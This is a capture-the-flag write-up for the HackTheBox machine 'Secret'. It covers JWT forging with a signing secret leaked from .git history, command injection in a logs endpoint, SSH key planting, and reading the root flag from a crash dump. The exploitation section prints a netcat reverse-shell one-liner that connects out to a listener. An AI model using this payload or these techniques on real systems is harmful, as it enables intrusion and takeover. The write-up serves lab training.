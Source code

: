 # Secret HackTheBox Writeup
### Level: `Easy` | OS: `Linux`
![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](2.png)

## Enumeration
We find the API documentation, we have to authenticate using a *JWT*.
![](3.png)

If we try to access without a token, we see that we do not have access to the resource.
![](4.png)

If we check the site, there is a link that allows us to download the code.

To get to the point, the file "*private.js*" shows the role and username of the administrator user of the application.

![](5.png)

Using the authentication example from the documentation above, we see that the user "*theadmin*" is registered with the e-mail address "*root@dasith.works*":

![](6.png)

We register a user.

![](7.png)

We decode the *JWT* and see the data it contains.

![](8.png)

We access the previous resource, but we still cannot access it because we are a user with a low privilege role.

![](9.png)

We continue with the enumeration, we identify a "*.git*" and we see that they have made some modification in the "*.env*" file.

![](10.png)

We retrieve the file and read its contents, we find the "*token_secret*". This token would allow us to modify our JWT and be able to make arbitrary modifications on it.

![](11.png)

We add the attribute *"role": "admin"* and change our user to "*theadmin*" in our cookie and authenticate, we check that now it works and we have access as the user "*theadmin*".

![](12.png)


## Exploitation
Reviewing the sections of the site, we see that the resource "*logs?file=*" is vulnerable to **Command Injection**:

![](13.png)

We can exploit this vulnerability to read the "*user.txt*" file.

![](14.png)

We use the following payload to gain access (remember to encode it in URL), put a **netcat** listening and send the request from **Burp**.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
![](15.png)

We list an uncommon setuid binary named "*/opt/count*". 

We see that the resource has the permissions of the root user.

![](16.png)

We launch **dirsearch**, we will list the file "*installer/subiquity-server-debug.log*", it contains the hashed credentials of the users used in the application.

![](17.png)

We tried to crack the hash of the user "*dasith*", but failed. So we will put our public key in the user's "*authorized_keys*" file and authenticate with our private key through the **SSH** service.

![](18.png)


## Privilege Escalation
Now we execute this statement to cause the crashes and to store in the report log the root flag.

![](19.png)

We check the "*CoreDump*" file and see that the root flag is in it.

![](20.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
